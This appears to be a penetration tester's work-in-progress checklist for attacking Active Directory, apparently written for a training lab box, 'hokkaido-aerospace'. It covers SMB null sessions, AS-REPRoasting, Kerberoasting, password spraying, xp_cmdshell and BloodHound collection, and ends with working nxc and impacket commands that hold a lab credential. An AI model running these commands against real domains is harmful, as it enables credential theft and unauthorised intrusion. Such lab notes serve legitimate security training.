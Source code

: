 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# WIP

## No Creds

<details>

<summary>HTTP(S)</summary>

* [ ] [Dirbust](../web/dirbusting.md) HTTP(S) ports with
  * [ ] [Directory list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-directories.txt) plus server-specific extensions
  * [ ] [File list](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/raft-large-files.txt) plus server-specific extensions
* [ ] File Uploads

</details>

<details>

<summary><a href="../services/shares/smb-139-445.md#usage">SMB</a></summary>

* [ ] Null session
* [ ] Guest session
* [ ] Anonymous session

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Check for valid users ([kerbrute](https://x7331.gitbook.io/boxes/tl-dr/active-directory/ad-tools/kerbrute))
  * [ ] BFA with `user:user`
* [ ] [AS-REPRoast](../tl-dr/active-directory/attacks/as-reproasting.md)
  * [ ] Crack hashes

</details>

## With Creds&#x20;

### Remote Access

<details>

<summary>User Context</summary>

* [ ] [SMB Enumeration](../services/shares/smb-139-445.md#usage)
* [ ] Check for Local Access (WinRM, RDP, SSH)
* [ ] MSSQL
  * [ ] Links
  * [ ] Users
  * [ ] xp\_cmdshell

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Create a domain user list ([nxc](../tl-dr/active-directory/ad-tools/netexec.md#smb))
  * [ ] Password spray with `user:user`
* [ ] [Kerberoast](../tl-dr/active-directory/attacks/kerberoasting.md)
  * [ ] Crack hashes
* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (RustHound-CE, bloodhound-python)
  * [ ] Analyze data and note potential targets and attack vectors

</details>

### Local Access

<details>

<summary>User Context</summary>

* [ ] Check [groups](../tl-dr/infra/os/windows/privilege-escalation/groups/)
* [ ] Check [privileges](../tl-dr/infra/os/windows/privilege-escalation/privileges/)
  * [ ] [Token elevation](../tl-dr/infra/os/windows/privilege-escalation/privileges/token-elevation.md)
* [ ] PEASS
* [ ] Shell History

</details>

<details>

<summary>AD Attacks</summary>

* [ ] Collect [domain data](../tl-dr/active-directory/ad-tools/bloodhound.md#ingestors) (SharpHound)
  * [ ] Analyze data and note potential targets and attack vectors

</details>



## Domain User

1. Create a userlist and AS-REPRoast, Kerberoast, PassSpray

{% code overflow="wrap" %}
```bash
# Domain users
nxc smb hokka -u info -p info --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users

# AS-REPRoast
$ impacket-GetNPUsers hokkaido-aerospace.com/ -dc-ip 192.168.155.40 -no-pass -usersfile domain_users

# Kerberoast
impacket-GetUserSPNs -request -dc-ip hokka hokkaido-aerospace.com/info:info

# Password Spray
nxc smb hokka -u domain_users -p domain_users --continue-on-success | grep +
```
{% endcode %}

2. Enumerate SMB shares

```bash
nxc smb hokka -u info -p info --shares
```

3. Check for remote access

```bash
nxc winrm hokka -u info -p info
nxc rdp hokka -u info -p info
```

4. Collect domain data

{% code overflow="wrap" %}
```bash
$ nxc ldap dc.hokkaido-aerospace.com -u discovery -p Start123! --bloodhound -c All --dns-server 192.168.155.40
```
{% endcode %}
